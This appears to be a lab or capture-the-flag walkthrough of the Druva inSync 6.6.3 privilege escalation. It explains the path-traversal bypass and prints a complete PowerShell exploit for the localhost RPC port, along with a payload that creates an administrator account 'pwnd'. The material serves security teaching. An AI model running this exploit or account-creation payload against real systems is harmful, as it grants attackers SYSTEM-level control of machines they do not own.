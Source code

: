 ## Case Study: Druva inSync 6.6.3

The target server is running Druva inSync 6.6.3, which is vulnerable to privilege escalation as reported by [Matteo Malvica](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/). The vulnerability results from a bad patch applied over another vulnerability reported initially for version 6.5.0 by [Chris Lyne](https://www.tenable.com/security/research/tra-2020-12).

The software is vulnerable because it runs an RPC (Remote Procedure Call) server on port 6064 with SYSTEM privileges, accessible from localhost only. If you aren't familiar with RPC, it is simply a mechanism that allows a given process to expose functions (called procedures in RPC lingo) over the network so that other machines can call them remotely.

In the case of Druva inSync, one of the procedures exposed (specifically procedure number 5) on port 6064 allowed anyone to request the execution of any command. Since the RPC server runs as SYSTEM, any command gets executed with SYSTEM privileges.

The original vulnerability reported on versions 6.5.0 and prior allowed any command to be run without restrictions. The original idea behind providing such functionality was to remotely execute some specific binaries provided with inSync, rather than any command. Still, no check was made to make sure of that.

A patch was issued, where they decided to check that the executed command started with the string `C:\ProgramData\Druva\inSync4\`, where the allowed binaries were supposed to be. But then, this proved insufficient since you could simply make a path traversal attack to bypass this kind of control. Suppose that you want to execute `C:\Windows\System32\cmd.exe`, which is not in the allowed path; you could simply ask the server to run `C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe` and that would bypass the check successfully.

To put together a working exploit, we need to understand how to talk to port 6064. Luckily for us, the protocol in use is straightforward, and the packets to be sent are depicted in the following diagram:

![Druva Exploit Diagram](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/ff706d6530426d3123c0983acd61f934.png)

The first packet is simply a hello packet that contains a fixed string. The second packet indicates that we want to execute procedure number 5, as this is the vulnerable procedure that will execute any command for us. The last two packets are used to send the length of the command and the command string to be executed, respectively.

Initially published by Matteo Malvica [here](https://packetstormsecurity.com/files/160404/Druva-inSync-Windows-Client-6.6.3-Privilege-Escalation.html), the following exploit can be used in your target machine to elevate privileges and retrieve this task's flag. For your convenience, here is the original exploit's code:

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

You can pop a Powershell console and paste the exploit directly to execute it (The exploit is also available in the target machine at `C:\tools\Druva_inSync_exploit.txt`). Note that the exploit's default payload, specified in the `$cmd` variable, will create a user named `pwnd` in the system, but won't assign him administrative privileges, so we will probably want to change the payload for something more useful. For this room, we will change the payload to run the following command:

```powershell
net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add
```

This will create user `pwnd` with a password of `SimplePass123` and add it to the administrators' group. If the exploit was successful, you should be able to run the following command to verify that the user `pwnd` exists and is part of the administrators' group:

Command Prompt

```shell-session
PS C:\> net user pwnd
User name                    pwnd
Full Name
Account active               Yes
[...]

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
```

As a last step, you can run a command prompt as administrator:

![Run Command Prompt as Pwnd](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/bbd0af143c9a9b31c1acce32fabfdc0f.png)  

When prompted for credentials, use the `pwnd` account. From the new command prompt, you can retrieve your flag from the Administrator's desktop with the following command `type C:\Users\Administrator\Desktop\flag.txt`.